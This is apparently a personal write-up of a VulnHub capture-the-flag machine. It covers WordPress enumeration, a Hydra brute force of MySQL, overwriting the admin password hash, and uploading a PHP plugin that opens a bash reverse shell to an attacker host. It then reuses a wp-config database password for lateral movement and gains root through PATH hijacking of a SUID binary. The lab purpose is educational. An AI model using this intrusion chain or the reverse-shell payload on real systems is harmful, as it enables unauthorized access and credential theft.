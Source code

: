 ```yaml
---
layout: post
title: Midnight Girl
date: 19-04-2025
categories: [Basics]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://alternativemagazineonline.co.uk/wp-content/uploads/2023/10/midnight-girl.jpg?w=640"
---
```


## Intrduction 

> Never walk to night you might see midnight girl, she is around, Grub your gun and mask and lets go.
{: .prompt-tip }
This its the most beautfull lab i have ever seen.

## Scanning phase
![Screenshot From 2025-03-30 07-09-56](https://github.com/user-attachments/assets/6856265c-8450-46fa-816c-285e76d3d2d9)


```
3 open ports 

22, 80, 3389
ssh http mysql
```

## port 80 its wordpress website running
 - enumarating the users using wpscan we get

```
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://sunset-midnight/wp-json/wp/v2/users/?per_page=100&page=1
 |  Oembed API - Author URL (Aggressive Detection)
 |   - http://sunset-midnight/wp-json/oembed/1.0/embed?url=http://sunset-midnight/&format=json
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

### I have get the user but cant move more because might take forever to brute force next i can take both brute the user admin and the while continue brute the mysql server

```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/midnight]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.56.106     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-29 14:22:48
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344400 login tries (l:1/p:14344400), ~3586100 tries per task
[DATA] attacking mysql://192.168.56.106:3306/
[3306][mysql] host: 192.168.56.106   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-29 14:22:50

```

## Accessing mysql
```
┌──(cyberkid㉿kali)-[/media/cyberkid/DAMN]
└─$ mysql -h 192.168.56.106 -u root -p --ssl=0\n
```

## woooo oi have to change the password because i dont have the time to crack it i might fail to crack it

> Just i have to edit the hash.

## create the password
```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/midnight]
└─$ php -r "echo password_hash('kiddle', PASSWORD_BCRYPT);"

$2y$12$Vna4bvjVf5yNT/Zp6ZA77eUEZz6BYifYdVBKU0Ar7PPcDjV2gPxwS                                                                                   
```

## Updating the database

```
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = '$2y$12$Vna4bvjVf5yNT/Zp6ZA77eUEZz6BYifYdVBKU0Ar7PPcDjV2gPxwS' WHERE user_login = 'admin';
```


## Go to the plugin section and add new plugin
![Screenshot From 2025-03-11 12-50-35](https://github.com/user-attachments/assets/f2d1e864-cdb4-440a-bd4f-cd26215332fb)


```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attackerip/553 0>&1'");
?>
Then i have to find were the filoe get stored and try to open while listerning in the same time
```
![Screenshot From 2025-03-11 19-43-58](https://github.com/user-attachments/assets/1f51aca8-dfc4-4bd0-801a-f1c25d6dbf67)


## save and add new installtion and the upload i6t to get installed 
To find the location of the uploads of the which the uploaded file will be found

```
http://sunset-midnight/wp-content/uploads/

>>> see the current year and dayte then the date will frovide you whilke listerning in the otherside click the php file woow we are in reverse shel;l is open now

nc -lnvp <port>


```

## Lateral movement
Try to see if the database i can find any credentials and try to move laterally

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         '9F#)Pk/=&SyQ/>UVRBXx$}e&>G@(+m6L|_{Emur&fv&fO_+wbJ`-6QnE_7hI|Y<p');
define('SECURE_AUTH_KEY',  'p#Eh5#4W~p4-Iue2M)H/?[dp`BS;$7o~Kb%F?&S-Zv=rH#;U%`9G#VR`l^,8j$M+');
define('LOGGED_IN_KEY',    '0{YUw?X%j+ej-0du&FW@QkVP?b(#QsQfu[Q%<QS_Lpc1UI1|st:EJr)d*$g/iJ18');
define('NONCE_KEY',        '%)thH*l;)A^S#8WQ!8TKAnQ;uNXNKv<f.|PyYijgztda70y-4m~DTyqr^X!$JwX#');
define('AUTH_SALT',        '<Kd5.3^|yo:/fw2Y|PTb4!bU~5uRv7Z(n0;~jOXoO7MC]j/ICu[tY!)g4Oah-{oa');
define('SECURE_AUTH_SALT', 'dmYQvQ1Ap&z~JUHUaKR6]<rm7^ydGAp(/EH&+vrAi6cBpi?F7XKTc@Ahm:|h*wR;');
define('LOGGED_IN_SALT',   '5+Iw-;-j+2rD3WgRtSM`!zDb5I%LLU0]Awk-Cma:f4xrJv%k~/@+TthXY_[JpjfK');
define('NONCE_SALT',       'iDo3}y9z;@c~a)ZLT:7|.ZCp-0sK4>T1p&%MhGt_TUu+HFpPjn-no`:8sI0BA);y');
```


## Lateral movement i have seen in the credentials in DB i can see if the password is the same and move in as jose
```
/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

www-data@midnight:/home/jose$ su jose
su jose
Password: 645dc5a8871d2a4269d4cbe23f6ae103
ls
user.txt
whoami
jose


```



## PRIVILAGE ESCALATION
>>> Using lin enum finding for SUID files
```
[-] SUID files:
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-sr-x 1 root root 16768 Jul 18  2020 /usr/bin/status
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
```

## The interesting file.

>>> -rwsr-sr-x 1 root root 16768 Jul 18  2020 /usr/bin/status

I created service file in tmp then i add /bin/bash inside the file to make it worth with bash shell

## Finally am Root.

```
jose@midnight:/usr/bin$ ls -al |grep status;
-rwsr-sr-x  1 root root       16768 Jul 18  2020 status
jose@midnight:/usr/bin$ ./status
sh: 1: service: not found
Status of the SSH server:jose@midnight:/usr/bin$ jose@midnight:/tmp$ export PATH=/tmp:$PATH
jose@midnight:/tmp$ /usr/bin/status
# whoami
root
# 
```

> Continue moving kid
{: .prompt-tip }
